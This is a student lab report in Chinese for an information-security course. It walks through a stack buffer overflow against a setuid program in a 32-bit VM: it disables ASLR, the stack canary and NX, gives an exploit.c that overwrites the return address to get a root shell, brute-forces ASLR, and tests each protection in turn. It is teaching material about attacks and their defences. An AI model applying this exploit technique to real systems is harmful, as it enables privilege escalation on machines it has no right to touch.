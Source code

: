 # 信息安全导论lab3

> PB18111707 吕瑞
>
> 2021/5/7

## 实验描述

### 实验背景

**缓冲区溢出：** 计算机向缓冲区内填充数据的位数超过了缓冲区预先分配的容量。

**缓冲区溢出攻击：** 通过向程序的缓冲区写超出其长度的内容，造成缓冲区溢出，从而破坏程序的堆栈，使得程序转而执行其他指令，以达到攻击的目的（比如获取进程的控制权）。

### 实验环境

- 32 位 ubuntu_16.04.6
- Oracle VM VirturalBox 管理器 

### 实验内容

实验给出了一个有缓冲区溢出漏洞的程序 stack.c，它会从文件中读取数据，并拷贝至自己的缓冲区。

我们需要利用这个漏洞获得 root 权限：通过精心设计 exploit.c 攻击程序，使其利用用户程序的漏洞产生badfile 文件，从而使用户程序读取 badfile 时，被攻击者控制。

 此外，我们将接触在 Linux 中实施的几种保护方案，并评估其有效性。



## 实验过程

### Initial setup

为了防止缓冲区溢出，linux 操作系统已经添加了多种保护机制。为了让我们的攻击执行顺利，我们需要禁用某些机制。

- **Address Space Randomization **

    ``` makefile
    # 禁止地址随机化机制
    $ su root
    Password: (enter root password)
    #sysctl -w kernel.randomize_va_space=0
    ```



- **The StackGuard Protection Scheme **

    ```makefile
    # 关闭 gcc 的 stack guard
    $ gcc -fno-stack-protector example.c
    ```

    

- **Non-Executable Stack**

    ```makefile
    # 允许可执行栈
    $ gcc -z execstack -o test test.c
    
    # 不允许可执行栈（保护）
    $ gcc -z noexecstack -o test test.c
    ```



### Task 1: Exploiting the Vulnerability

#### exploit.c

```c
void main(int argc, char **argv) {
  char buffer[517];
  FILE *badfile;

  /* Initialize buffer with 0x90 (NOP instruction) */
  memset(&buffer, 0x90, 517);

  /* You need to fill the buffer with appropriate contents here */
  strcpy(buffer+100,shellcode); // 将 shellcode 拷贝到 buffer 中
    
  strcpy(buffer+0x24,"\x7b\xee\xff\xbf"); // 在 buffer 特定偏移处起始的四个字节覆盖写入一个字
    
  /* Save the contents to the file "badfile" */
  badfile = fopen("./badfile", "w");
  fwrite(buffer, 517, 1, badfile);
  fclose(badfile);
}
```

攻击程序 exploit.c 编译执行后， buffer 的内容就是 badfile 的数据。所以需要将 shellcode 的内容拷贝到 buffer。

shellcode 相对于 buffer 的偏移值需要设置一个大于 0 的数，这里取 100；

```c
strcpy(buffer+offset,"\x7b\xee\xff\xbf");
```

为了实现拷贝过程中 shellcode 的首地址正好覆盖函数 bof 执行后的返回地址，我们需要在 buffer 特定偏移处起始的四个字节覆盖写入一个字。

显然，这个字为 shellcode 的首地址。

#### 通过调试确定 shellcode 的首地址

1 禁止地址随机化

```makefile
$ sudo su
    Password: (enter root password)
#sysctl -w kernel.randomize_va_space=0
```

2 编译漏洞程序 stack.c

```makefile
$ su root 
    Password: (enter root password)
# gcc -g -o stack -z execstack -fno-stack-protector stack.c 
# chmod 4755 stack 
# exit
```

3 获得 shellcode 地址

```makefile
$ gdb stack
(gdb) b main
(gdb) r
(gdb) p /x &str
```



<img src="imgs/1-1.PNG" alt="1-1" style="zoom:60%;" />

从上图可以看到，漏洞程序读取 badfile 文件到缓冲区 str，且 str 的地址为`0xbfffee17`，则 shellcode 地址为 `0xbfffee17` + 100 = `0xbfffee7b`。



#### 计算 bof 函数执行后的返回地址

（参考曾老师信息安全导论课程 ppt 第七章）

1. 记录堆栈指针 esp 的值：A = $esp = `0xbfffedfc`

    <img src="imgs/1-2.PNG" alt="1-2" style="zoom:67%;" />

    

2. 记录 buffer 的首地址：B = buff = `0xbfffedd8`

    <img src="imgs/1-3.PNG" alt="1-3" style="zoom:67%;" />

    

3. 计算 buff 的首地址与 bof 返回地址所在的栈的距离：

    offset = A - B = `0xbfffedd8 - 0xbfffedfc` = `36` = `0x24`

#### 攻击测试

```makefile
$ gcc -o exploit exploit.c
$./exploit // create the badfile
$./stack // launch the attack by running the vulnerable program
# <---- Bingo! You’ve got a root shell!
```

<img src="imgs/1-4.PNG" alt="1-4"  />

如上图，exploit 程序能够成功获取 root shell。



### Task 2: Address Randomization

现在考虑地址随机化这一保护机制。

当开启地址随机化保护机制时，程序运行栈的基地址是随机的， Task1 中针对特定基地址的缓冲区溢出攻击可能不再有效。

```makefile
$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
    Password: (enter root password) 
# exit
$ sh -c "while [ 1 ]; do ./stack; done;"
```

![2-1](imgs/2-1.PNG)

但是，对于每个特定的操作系统，地址随机范围都是确定的且较为集中。所以我们可以假设，在一定时间内，会出现两次地址相同的情况，这样就不用改变 Task1 的地址设置，用循环不停尝试运行漏洞程序，直到成功启动 root shell。



### Task 3: Stack Guard

现在讨论 Stack Guard 保护机制。注意先关闭随机化地址保护机制。

重新编译 stack.c ，此时删除 Task1 中的 `-fno-stack-protector` 参数

```makefile
$ su root 
    Password: (enter root password)
# gcc -g -o stack -z execstack stack.c 
# chmod 4755 stack 
# exit
```

![3-1](imgs/3-1.PNG)

如图，可以看到报错 “stack smashing detected” ，这正是分配空间不足引起的错误。

### Task 4: Non-executable Stack

现在讨论 “堆栈不可执行” 保护机制。注意先关闭随机化地址保护机制。

重新编译 stack.c ，此时修改 Task1 中的 `execstack` 参数为 `noexecstack`。

```makefile
$ su root 
    Password: (enter root password)
# gcc -o stack -fno-stack-protector -z noexecstack stack.c 
# chmod 4755 stack 
# exit
```

![4-1](imgs/4-1.PNG)

需要注意的是，堆栈不可行机制的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入 shellcode 时，程序会尝试在数据页面上执行指令，此时 CPU 就会抛出异常，而不是去执行恶意指令。

因此该机制只能保证不会在堆栈上运行 shellcode，但是不能完全防止缓冲区溢出攻击。因为还有其他方式运行恶意代码后利用缓冲区溢出漏洞。